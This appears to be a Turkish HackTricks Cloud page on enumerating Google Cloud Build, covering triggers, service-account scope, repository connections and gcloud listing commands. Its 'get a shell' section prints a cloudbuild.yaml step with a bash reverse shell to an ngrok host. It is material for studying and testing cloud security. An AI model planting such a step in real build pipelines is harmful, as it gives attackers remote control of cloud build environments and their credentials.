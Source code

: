 # GCP - Cloud Build Enum

<details>

<summary><strong>AWS hacklemeyi sıfırdan kahramana öğrenin</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> ile!</strong></summary>

HackTricks'i desteklemenin diğer yolları:

* **Şirketinizi HackTricks'te reklamınızı görmek istiyorsanız** veya **HackTricks'i PDF olarak indirmek istiyorsanız** [**ABONELİK PLANLARI**]'na göz atın (https://github.com/sponsors/carlospolop)!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**PEASS Ailesi'ni**](https://opensea.io/collection/the-peass-family) keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuz
* **Katılın** 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) veya bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** takip edin.**
* **Hacking püf noktalarınızı paylaşarak** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına PR göndererek.

</details>

## Temel Bilgiler

Google Cloud Build, **yazılım derleme** ve sürüm süreçlerini otomatikleştiren, **kaynak kod depolarıyla entegre olan** ve geniş bir programlama dilini destekleyen yönetilen bir CI/CD platformudur. Geliştiricilere kodu otomatik olarak derleme, test etme ve dağıtma olanağı sağlarken derleme adımlarını ve iş akışlarını özelleştirmelerine olanak tanır.

Her Cloud Build Tetikleyicisi, bir **Cloud Deposu ile ilişkilidir veya harici bir depo ile doğrudan bağlantılıdır** (Github, Bitbucket ve Gitlab).

{% hint style="success" %}
Buradan veya Bulut Depolarından Github/Bitbucket belirteci çalmak için herhangi bir yol göremedim çünkü depo indirildiğinde [https://source.cloud.google.com/](https://source.cloud.google.com/) URL'si üzerinden erişilir ve Github istemci tarafından erişilmez.
{% endhint %}

### Olaylar

Cloud Build, şu durumlarda tetiklenebilir:

* **Bir şubeye itme**: Şubeyi belirtin
* **Yeni bir etiket itme**: Etiketi belirtin
* **Çekme isteği**: PR'yi alan şubeyi belirtin
* **Manuel Çağrı**
* **Pub/Sub mesajı**: Konuyu belirtin
* **Web kancası olayı**: Bir HTTPS URL'si açığa çıkaracak ve istek bir sırla kimlik doğrulaması yapmalı

### Yürütme

3 seçenek vardır:

* Yürütülecek komutları belirten bir yaml/json. Genellikle: `/cloudbuild.yaml`
* Web konsolunda ve cli'de "içe" belirtilebilecek tek seçenek
* En yaygın seçenek
* Kimlik doğrulamasız erişim için ilgili
* Derlemek için bir **Dockerfile**
* Derlemek için bir **Buildpack**

### SA İzinleri

**Hizmet Hesabı `cloud-platform` kapsamına sahiptir**, bu nedenle **tüm ayrıcalıkları kullanabilir.** **SA belirtilmediğinde** (örneğin, gönderme yapılırken) **varsayılan SA** `<proj-numarası>@cloudbuild.gserviceaccount.com` **kullanılacaktır.**

Varsayılan olarak hiçbir izin verilmez ancak bazı izinler vermek oldukça kolaydır:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Onaylar

Bir Cloud Build'in **derleme yürütümleri için onay gerektirmesi** mümkündür (varsayılan olarak devre dışı bırakılmıştır).

### Bağlantılar ve Depolar

Bağlantılar şunlar üzerinden oluşturulabilir:

* **GitHub:** Github belirteci almak için izin isteyen bir OAuth iletişim kutusu gösterecektir, bu belirteç **Secret Manager içinde saklanacaktır.**
* **GitHub Enterprise:** Bir **GithubApp** yüklemek için istekte bulunacaktır. GitHub Enterprise ana bilgisayarınızdan bir kimlik doğrulama belirteci oluşturulacak ve bu proje içinde bir **Secret Manager** sırrı olarak saklanacaktır.
* **GitLab / Enterprise:** **API erişim belirteci ve Okuma API erişim belirteci** sağlamanız gerekecektir, bu belirteçler **Secret Manager'da saklanacaktır.**

Bir bağlantı oluşturulduğunda, Github hesabının erişimine sahip olduğu depoları **bağlamak için kullanabilirsiniz.**

Bu seçenek, aşağıdaki düğme aracılığıyla kullanılabilir:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
Bu yöntemle bağlanan depoların yalnızca 2. nesil kullanarak Tetikleyicilerde mevcut olduğunu unutmayın.
{% endhint %}

### Bir Depoyu Bağlama

Bu bir **`bağlantı`** ile aynı değildir. Bu, **farklı** şekillerde bir **Github veya Bitbucket** deposuna **erişim sağlar ancak bir bağlantı nesnesi oluşturmaz, ancak bir depo nesnesi oluşturur (1. nesil).**

Bu seçenek, aşağıdaki düğme aracılığıyla kullanılabilir:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Depolama

Bazen Cloud Build, tetikleyici için dosyaları depolamak için **yeni bir depolama oluşturacaktır**. Bu örneğin, GCP'nin sunduğu örnekte olduğu gibi gerçekleşir:
```bash
git clone https://github.com/GoogleCloudBuild/cloud-console-sample-build && \
cd cloud-console-sample-build && \
gcloud builds submit --config cloudbuild.yaml --region=global
```
### Kabuk Al

Bir `.tgz` dosyasını saklamak için [security-devbox\_cloudbuild](https://console.cloud.google.com/storage/browser/security-devbox\_cloudbuild;tab=objects?forceOnBucketsSortingFiltering=false\&project=security-devbox) adında bir Depolama kovası oluşturulmuştur.
```yaml
steps:
- name: bash
script: |
#!/usr/bin/env bash
bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12395 0>&1
options:
logging: CLOUD_LOGGING_ONLY
```
### Sıralama

**Yapılandırma ve günlüklerde hassas bilgiler bulabilirsiniz**.
```bash
# Get configured triggers configurations
gcloud builds triggers list # Check for the words github and bitbucket
gcloud builds triggers describe <trigger-name>

# Get build executions
gcloud builds list
gcloud builds describe <build-uuid> # Get even the build yaml if defined in there
gcloud builds log <build-uuid> # Get build logs

# List all connections of each region
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build connections in region: $region"
connections=("${(@f)$(gcloud builds connections list --region="$region" --format='value(name)')}")
if [[ ${#connections[@]} -eq 0 ]]; then
echo "No connections found in region $region."
else
for connection in $connections; do
echo "Describing connection $connection in region $region"
gcloud builds connections describe "$connection" --region="$region"
echo "-----------------------------------------"
done
fi
echo "========================================="
done

# List all worker-pools
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build worker-pools in region: $region"
gcloud builds worker-pools list --region="$region"
echo "-----------------------------------------"
done
```
### Yetki Yükseltme

{% content-ref url="../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md" %}
[gcp-cloudbuild-privesc.md](../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md)
{% endcontent-ref %}

### Kimlik Doğrulamasız Erişim

{% content-ref url="../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md" %}
[gcp-cloud-build-unauthenticated-enum.md](../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md)
{% endcontent-ref %}

### Saldırı Sonrası Aşamalar

{% content-ref url="../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md" %}
[gcp-cloud-build-post-exploitation.md](../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md)
{% endcontent-ref %}

<details>

<summary><strong>Sıfırdan Kahramana AWS hackleme öğrenin</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks'ı desteklemenin diğer yolları:

* **Şirketinizi HackTricks'te reklamını görmek istiyorsanız** veya **HackTricks'i PDF olarak indirmek istiyorsanız** [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) koleksiyonumuzu keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) hakkında bilgi edinin
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın veya bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)'da takip edin.**
* **Hacking püf noktalarınızı paylaşarak PR'ler göndererek** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına katkıda bulunun.

</details>
